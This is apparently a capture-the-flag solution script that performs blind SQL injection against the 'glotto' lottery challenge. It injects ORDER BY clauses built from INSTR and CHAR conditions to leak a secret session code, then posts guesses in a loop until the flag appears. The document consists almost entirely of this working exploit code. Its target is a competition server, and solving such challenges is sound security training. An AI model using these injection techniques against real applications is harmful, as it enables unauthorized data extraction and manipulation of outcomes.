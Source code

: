 ```python
         "INSTR(winner,CHAR("+str(ord("U"))+"))=1",
         "INSTR(winner,CHAR("+str(ord("Y"))+"))=1",
         "INSTR(winner,CHAR("+str(ord("H"))+"))=3",
         "INSTR(winner,CHAR("+str(ord("D"))+"))=1",
         "INSTR(winner,CHAR("+str(ord("I"))+"))=1"]
marcht = ["CA5G8VIB6UC9", "01VJNN9RHJAC", "1WSNL48OLSAJ", "UN683EI26G56", "YYKCXJKAK3KV", "00HE2T21U15H", "D5VBHEDB9YGF", "I6I8UV5Q64L0"]

april = ["INSTR(winner,CHAR("+str(ord("4"))+"))=1",
         "INSTR(winner,CHAR("+str(ord("7"))+"))=1",
         "INSTR(winner,CHAR("+str(ord("U"))+"))=1",
         "INSTR(winner,CHAR("+str(ord("O"))+"))=1",
         "INSTR(winner,CHAR("+str(ord("2"))+"))=1",
         "INSTR(winner,CHAR("+str(ord("L"))+"))=1",
         "INSTR(winner,CHAR("+str(ord("8"))+"))=1",
         "INSTR(winner,CHAR("+str(ord("B"))+"))=1",
         "INSTR(winner,CHAR("+str(ord("3"))+"))=1"]
aprilt = ["4KYEC00RC5BZ", "7AET1KPGKUG4", "UDT5LEWRSWM9", "OQQRH90KDJH1", "2JTBMJW9HZOO", "L4CY1JMRBEAW", "8DKYRPIO4QUW", "BFWQCWYK9VHJ", "31OSKU57KV49"]

may = ["INSTR(winner,CHAR("+str(ord("3"))+"))=2",
       "INSTR(winner,CHAR("+str(ord("P"))+"))=1",
       "INSTR(winner,CHAR("+str(ord("W"))+"))=2",
       "INSTR(winner,CHAR("+str(ord("M"))+"))=2",
       "INSTR(winner,CHAR("+str(ord("K"))+"))=1",
       "INSTR(winner,CHAR("+str(ord("Z"))+"))=1",
       "INSTR(winner,CHAR("+str(ord("8"))+"))=1"]
mayt = ["O3QZ2P6JNSSA", "PQ8ZW6TI1JH7", "OWGVFW0XPLHE", "OMZRJWA7WWBC", "KRRNDWFFIB08", "ZJR7ANXVBLEF", "8GAB09Z4Q88A"]

june = ["INSTR(winner,CHAR("+str(ord("1"))+"))=1",
        "INSTR(winner,CHAR("+str(ord("Y"))+"))=1",
        "INSTR(winner,CHAR("+str(ord("W"))+"))=1",
        "INSTR(winner,CHAR("+str(ord("G"))+"))=1"]
junet = ["1JJL716ATSCZ", "YELDF36F4TW7", "WXRJP8D4KKJQ", "G0O9L3XPS3IR"]

param = lambda q: f"winner` IS NOT NULL, {q} -- "
num = lambda m1,m2,m3,d: f"(MOD(MOD(MOD(CAST(CONV(@lotto, 36, 10) AS UNSIGNED), {m1}),{m2}),{m3}) DIV {d})"

import requests
url = "https://glotto.web.ctfcompetition.com"

while True:
  rs = requests.session()
  r = rs.get(url, params={
    "order0": param(sqlencode(num(36**12, 36**12, 36**12, 117519378430596), 8, march)),
    "order1": param(sqlencode(num(36**12, 36**12, 117519378430596, 323851903), 9, april)),
    "order2": param(sqlencode(num(36**12, 117519378430596, 323851903, 64257), 7, may)),
    "order3": param(sqlencode(num(117519378430596, 323851903, 64257, 2678), 4, june))
  })
  r1 = sqldecode(r.text, 8, marcht)
  r2 = sqldecode(r.text, 9, aprilt)
  r3 = sqldecode(r.text, 7, mayt)
  r4 = sqldecode(r.text, 4, junet)
  guess = 117519378430596*r1 + 323851903*r2 + 64257*r3 + 2678*r4 + 100
  r = rs.post(url, data={"code":base36encode(guess).zfill(12)})
  if "CTF" in r.text:
    print(r.text)
    break
  win = int(r.text.split(" ")[-1], 36)
  print(guess - win, r.text.split(" ")[-1], base36encode(guess).zfill(12))
```
